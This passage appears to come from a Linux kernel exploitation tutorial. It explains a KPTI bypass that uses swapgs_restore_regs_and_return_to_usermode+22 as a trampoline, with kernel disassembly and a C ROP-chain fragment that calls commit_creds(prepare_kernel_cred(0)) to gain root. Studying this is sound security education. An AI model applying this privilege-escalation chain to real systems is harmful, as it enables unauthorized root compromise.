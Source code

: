 ```bash
.text:FFFFFFFF81200F35                 push    qword ptr [rdi+28h]
.text:FFFFFFFF81200F38                 push    qword ptr [rdi+20h]
.text:FFFFFFFF81200F3B                 push    qword ptr [rdi+18h]
.text:FFFFFFFF81200F3E                 push    qword ptr [rdi+10h]
.text:FFFFFFFF81200F41                 push    qword ptr [rdi]
.text:FFFFFFFF81200F43                 push    rax
.text:FFFFFFFF81200F44                 jmp     short loc_FFFFFFFF81200F89
...
```

As you can see, it first recovers a lot of registers by popping from the stack. However, what we are actually interested in is the parts where it swaps the page tables, `swapgs` and `iretq`, and not this part. Simply ROP into the start of this function works fine, but it will unnecessarily enlarge our ROP chain due to a lot of dummy registers need to be inserted. As a result, our `KPTI trampoline` will be at `swapgs_restore_regs_and_return_to_usermode + 22` instead, which is the address of the first `mov`. 

After the initial registers restoration, below are the parts that are useful to us:
```bash
.text:FFFFFFFF81200F89 loc_FFFFFFFF81200F89:
.text:FFFFFFFF81200F89                               pop     rax
.text:FFFFFFFF81200F8A                               pop     rdi
.text:FFFFFFFF81200F8B                               call    cs:off_FFFFFFFF82040088
.text:FFFFFFFF81200F91                               jmp     cs:off_FFFFFFFF82040080
...
.text.native_swapgs:FFFFFFFF8146D4E0                 push    rbp
.text.native_swapgs:FFFFFFFF8146D4E1                 mov     rbp, rsp
.text.native_swapgs:FFFFFFFF8146D4E4                 swapgs
.text.native_swapgs:FFFFFFFF8146D4E7                 pop     rbp
.text.native_swapgs:FFFFFFFF8146D4E8                 retn
...
.text:FFFFFFFF8120102E                               mov     rdi, cr3
.text:FFFFFFFF81201031                               jmp     short loc_FFFFFFFF81201067
...
.text:FFFFFFFF81201067                               or      rdi, 1000h
.text:FFFFFFFF8120106E                               mov     cr3, rdi
...
.text:FFFFFFFF81200FC7                               iretq
```

Notice that there are 2 extra pops at the start, so we still have to put in our chain 2 dummy values. The other snippets is where it `swapgs`, swaps page tables by modifying control register `CR3`, and finally `iretq`. We will tweak the final part of our ROP chain from `SWAPGS|IRETQ|RIP|CS|RFLAGS|SP|SS` to `KPTI_trampoline|dummy RAX|dummy RDI|RIP|CS|RFLAGS|SP|SS`:
```C
void overflow(void){
    // ...
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
    // ...
}
```
